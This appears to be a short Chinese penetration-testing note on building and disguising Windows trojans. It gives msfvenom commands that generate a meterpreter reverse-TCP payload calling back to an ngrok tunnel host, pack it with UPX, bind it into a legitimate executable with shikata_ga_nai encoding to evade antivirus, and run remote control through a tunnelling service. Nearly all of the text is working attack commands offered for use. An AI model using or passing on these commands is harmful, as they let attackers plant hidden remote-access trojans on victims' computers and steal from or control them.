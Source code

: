 ![image-20210121002404774](../../img/image-20210121002404774.png)

#### 木马控制

```
#木马生成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn
LPORT=14444 -f exe -o usertest.exe
#加壳
使用
upx -5 usertest.exe
```

#### 木马捆绑

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn LPORT=738 -e x86/shikata_ga_nai -x load.exe -i 5 -f exe -o kunbang.exe


-x 捆绑木马
```

#### 木马免杀

```
见木马与免杀
```

用小米球tcp进行远程控制



<img src="../../img/image-20210118111327903.png" alt="image-20210118111327903" />
